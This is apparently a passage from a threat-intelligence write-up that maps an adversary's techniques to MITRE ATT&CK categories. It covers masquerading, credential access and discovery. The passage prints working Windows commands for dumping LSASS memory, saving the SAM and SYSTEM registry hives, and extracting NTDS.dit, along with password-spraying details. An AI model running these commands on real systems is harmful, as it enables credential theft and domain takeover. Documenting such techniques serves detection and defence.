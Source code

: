 - Modification of file timestamps to match system files

### T1036.005 - Masquerading

- Renaming WinRAR utility to avoid detection
- Changing file extensions of exfiltrated data

## Credential Access (TA0006)

### T1003.001 - LSASS Memory Dumping

- Use of Mimikatz and custom password retrieval tools
```cmd
rundll32.exe C:\\Windows\\System32\\comsvcs.dll, MiniDump <PID> lsass.dmp full
```

### T1003.002 - Security Account Manager (SAM)

```cmd
reg save HKLM\\SAM SAM
reg save HKLM\\SYSTEM SYSTEM
```

### T1003.003 - NTDS.dit

```cmd
vssadmin create shadow /for=C:\
ntdsutil "ac i ntds" "ifm" "create full C:\\loot" q q
```

### T1110.001 - Brute Force

- Distributed attacks via Kubernetes cluster

### T1110.003 - Password Spraying

- ~4 attempts/hour per account over extended periods

### T1040 - Network Sniffing

- Responder tool for NetBIOS Name Service poisoning

## Discovery (TA0007)

### T1083 - File and Directory Discovery

```cmd
forfiles /P C:\\ /M *.doc /S /C "cmd /c echo @path"
```

### T1018 - Remote System Discovery

```cmd
net view /domain
```
